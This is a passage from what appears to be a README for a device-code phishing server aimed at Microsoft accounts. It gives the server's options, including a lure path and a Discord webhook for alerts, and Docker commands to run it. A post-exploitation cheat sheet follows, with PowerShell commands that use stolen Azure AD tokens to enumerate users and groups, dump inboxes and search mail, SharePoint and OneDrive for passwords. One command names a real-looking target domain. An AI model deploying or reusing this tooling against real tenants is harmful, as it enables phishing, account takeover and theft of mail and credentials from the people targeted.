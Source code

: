 ### 5. Command Line Arguments
| Argument | Description | Default |
|----------|-------------|---------|
| `-a, --address` | Server listening address | `0.0.0.0:443` |
| `-l, --lure-path` | Path for the lure endpoint | `/lure` |
| `--cert` | Path to TLS certificate file | `""` |
| `--key` | Path to TLS private key file | `""` |
| `-u, --user-agent` | User-Agent for HeadlessBrowser | Edge on Windows |
| `-c, --client-id` | ClientId for requesting token | MS Auth Broker |
| `-t, --tenant` | Tenant for requesting token | `common` |
| `--discord-webhook` | Discord webhook URL for notifications | `""` |

## Running the Server

### Using Docker (Recommended)
```bash
# Build
docker build -t device-code-phishing .

# Run (HTTP)
docker run -p 8080:8080 device-code-phishing server -a 0.0.0.0:8080 -l login

# Run (HTTPS with Discord webhook)
docker run -p 443:443 \
  -v /path/to/cert.pem:/app/cert.pem \
  -v /path/to/key.pem:/app/key.pem \
  device-code-phishing \
  server -a 0.0.0.0:443 -l login \
  --cert /app/cert.pem \
  --key /app/key.pem \
  --discord-webhook "https://discord.com/api/webhooks/your/webhook/url"
```


##Cheat Sheet
```
powershell -ep bypass
Import-Module .\TokenTactics.psd1
$access_token = "eyJ0eXAiOiJ..."
Parse-JWTtoken $access_token
Import-Module AADInternals
Get-AADIntUsers -AccessToken $access_token
Get-AADIntUser -AccessToken $access_token -UserPrincipalName "admin@domain"
$refresh_token = "1.ASYAFR..."
RefreshTo-OutlookToken -domain mcbs.edu.om -RefreshToken $refresh_token

Import-Module .\GraphRunner-main\GraphRunner.ps1
Invoke-RefreshGraphTokens -RefreshToken $refresh_token -tenantid domain.com //this will produce $tokens var
Get-Inbox -Tokens $tokens -userid user@domain.com -OutFile emails.csv
Invoke-SearchMailbox -Tokens $tokens -SearchTerm "Password"
Invoke-SearchSharePointAndOneDrive -Tokens $tokens -SearchTerm 'password AND filetype:xlsx'
Invoke-GraphRecon -Tokens $tokens -PermissionEnum
Get-AzureADUsers -Tokens $tokens -OutFile users.txt
Get-SecurityGroups -AccessToken $tokens.access_token
Get-UpdatableGroups -Tokens $tokens
Get-SharePointSiteURLs -Tokens $tokens
Get-TenantID -Domain domain.com
```